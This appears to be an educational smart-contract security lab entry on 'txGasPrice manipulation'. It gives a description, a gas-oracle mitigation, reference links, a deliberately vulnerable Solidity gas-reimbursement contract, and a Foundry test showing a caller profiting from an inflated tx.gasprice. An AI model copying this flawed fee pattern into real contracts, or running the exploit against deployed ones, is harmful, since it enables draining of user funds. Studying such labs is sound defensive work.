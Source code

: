 # txGasPrice manipulation

**Name:** txGasPrice manipulation

**Description:** Manipulation of the txGasPrice value, which can result in unintended consequences and potential financial losses.

In the calculateTotalFee function, the total fee is calculated by multiplying gasUsed + GAS_OVERHEAD_NATIVE with txGasPrice. The issue is that the txGasPrice value can be manipulated by an attacker, potentially leading to an inflated fee calculation.

**Mitigation:**

To address this vulnerability, it is recommended to implement safeguards such as using a gas oracle to obtain the average gas price from a trusted source.

**REF:**

https://twitter.com/1nf0s3cpt/status/1678268482641870849

https://github.com/solodit/solodit_content/blob/main/reports/ZachObront/2023-03-21-Alligator.md

https://github.com/solodit/solodit_content/blob/main/reports/Trust Security/2023-05-15-Brahma.md

https://blog.pessimistic.io/ethereum-alarm-clock-exploit-final-thoughts-21334987c331

**GasReimbursement Contract:**

```jsx
contract GasReimbursement {
    uint public gasUsed = 100000; // Assume gas used is 100,000
    uint public GAS_OVERHEAD_NATIVE = 500; // Assume native token gas overhead is 500

    // uint public txGasPrice = 20000000000;  // Assume transaction gas price is 20 gwei

    function calculateTotalFee() public view returns (uint) {
        uint256 totalFee = (gasUsed + GAS_OVERHEAD_NATIVE) * tx.gasprice;
        return totalFee;
    }

    function executeTransfer(address recipient) public {
        uint256 totalFee = calculateTotalFee();
        _nativeTransferExec(recipient, totalFee);
    }

    function _nativeTransferExec(address recipient, uint256 amount) internal {
        payable(recipient).transfer(amount);
    }
}
```

***\*How to Test:\****

forge test --contracts src/test/**gas-price.sol**-vvvv

```jsx
// Test function to check gas refund in the GasReimbursementContract.
function testGasRefund() public {
    // Get the balance of this contract before executing the transfer.
    uint balanceBefore = address(this).balance;

    // Call the 'executeTransfer' function of the GasReimbursementContract, which should trigger a gas refund.
    GasReimbursementContract.executeTransfer(address(this));

    // Calculate the balance of this contract after the transfer and subtract the gas cost (gas price) from it.
    uint balanceAfter = address(this).balance - tx.gasprice; // --gas-price 200000000000000

    // Calculate and log the profit obtained by the contract from the gas refund.
    console.log("Profit", balanceAfter - balanceBefore);
}
```

**Red box: gas refund incorrectly**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F1a5cb283-c5d4-4bd2-b802-5ebb285537d3%2FUntitled.png?table=block&id=6fd4f616-4158-4f5a-9ae6-32cc3659b1e6&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
